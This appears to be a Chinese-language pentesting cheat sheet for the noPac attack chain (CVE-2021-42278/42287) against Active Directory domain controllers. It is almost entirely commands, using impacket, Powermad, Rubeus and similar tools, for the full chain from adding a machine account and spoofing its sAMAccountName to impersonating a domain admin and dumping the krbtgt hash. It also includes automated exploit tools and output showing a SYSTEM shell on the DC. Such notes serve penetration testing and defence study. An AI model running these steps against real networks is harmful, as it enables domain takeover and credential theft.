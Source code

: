 	需要MachineAccountQuota > 0
  #### 检查账户的MachineAccountQuota
  	>crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
	>StandIn.exe --object ms-DS-MachineAccountQuota=*
  #### 检查DC是否存在漏洞
  	>crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
  #### EXPLOIT
  ##### 添加计算机账户
  	impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'
	
	powermad@windows> . .\Powermad.ps1
	powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
	powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose
	
	sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
  ##### 清除被控机器账户的servicePrincipalName 属性
  	impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

	powershell@windows> . .\Powerview.ps1
	powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
  ##### (CVE-2021-42278) 将受控机器帐户 sAMAccountName 更改为域控制器的名称，不带尾随 $
  	impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

	powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
  ##### 为被控机器申请TGT
  	impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

	cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
  ##### 充值被控账户的sAMAccountName 到旧值
  	impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

	powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
  ##### (CVE-2021-42287) 通过出示之前获得的 TGT 向 S4U2self 请求服务票证
  	impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

	cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
  ##### DCSync
	DCSync: KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
  #### 自动exploit
  	https://github.com/cube0x0/noPac
	>noPac.exe scan -domain htb.local -user user -pass 'password123'
	>noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
	>noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
	https://github.com/WazeHell/sam-the-admin
	>python3 sam_the_admin.py "caltech/alice.cassie:Lee@tPass" -dc-ip 192.168.1.110 -shell
	[*] Selected Target dc.caltech.white                                              
	[*] Total Domain Admins 11                                                        
	[*] will try to impersonat gaylene.dreddy                                         
	[*] Current ms-DS-MachineAccountQuota = 10                                        
	[*] Adding Computer Account "SAMTHEADMIN-11$"                                     
	[*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
	[*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
	[*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
	[*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
	[*] Saving ticket in dc.ccache                                                    
	[*] Resting the machine account to SAMTHEADMIN-11$                                
	[*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
	[*] Using TGT from cache                                                          
	[*] Impersonating gaylene.dreddy                                                  
	[*]     Requesting S4U2self                                                       
	[*] Saving ticket in gaylene.dreddy.ccache                                        
	[!] Launching semi-interactive shell - Careful what you execute                   
	C:\Windows\system32>whoami                                                        
	nt authority\system 
	https://github.com/ly4k/Pachine
	>python3 pachine.py -dc-host dc.predator.local -scan 'predator.local/john:Passw0rd!'
	>python3 pachine.py -dc-host dc.predator.local -spn cifs/dc.predator.local -impersonate administrator 'predator.local/john:Passw0rd!'
	>export KRB5CCNAME=$PWD/administrator@predator.local.ccache
	>impacket-psexec -k -no-pass 'predator.local/administrator@dc.predator.local'